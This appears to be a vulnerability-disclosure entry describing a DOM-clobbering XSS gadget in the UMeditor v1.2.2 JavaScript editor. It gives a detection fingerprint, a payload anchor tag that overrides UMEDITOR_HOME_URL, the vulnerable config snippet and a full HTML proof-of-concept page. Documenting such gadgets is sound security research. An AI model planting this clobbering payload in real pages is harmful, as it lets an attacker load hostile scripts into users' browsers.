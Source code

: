 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

```html
<!--Library-->
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>UMEDITOR 简单功能</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<link href="/umeditor/themes/default/_css/umeditor.css" type="text/css" rel="stylesheet">
<script type="text/javascript" src="/umeditor/third-party/jquery.min.js"></script>
<script type="text/javascript" src="/umeditor/third-party/template.min.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/umeditor.config.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/_examples/editor_api.js"></script>
<script type="text/javascript" src="/umeditor/lang/zh-cn/zh-cn.js"></script>
<style type="text/css">
h1{
        font-family: "微软雅黑";
        font-weight: normal;
}
</style>
<script type="text/plain" id="myEditor" style="width:800px;height:240px;">
<p>这里我可以写一些输入提示</p>
</script>
<script type="text/javascript">
var um = UM.getEditor('myEditor',{
        //这里可以选择自己需要的工具按钮名称,此处仅选择如下七个
        toolbar:['fullscreen source undo redo bold italic underline'],
        //focus时自动清空初始化时的内容
        autoClearinitialContent:true,
        //关闭字数统计
        wordCount:false,
        //关闭elementPath
        elementPathEnabled:false,
        //默认的编辑区域高度
        initialFrameHeight:300
        //更多其他参数，请参考umeditor.config.js中的配置项
});
</script>
<!--Library-->

<!--Payload-->
<a id="UMEDITOR_HOME_URL" href="http://localhost:9999"></a>
<!--Payload-->
```


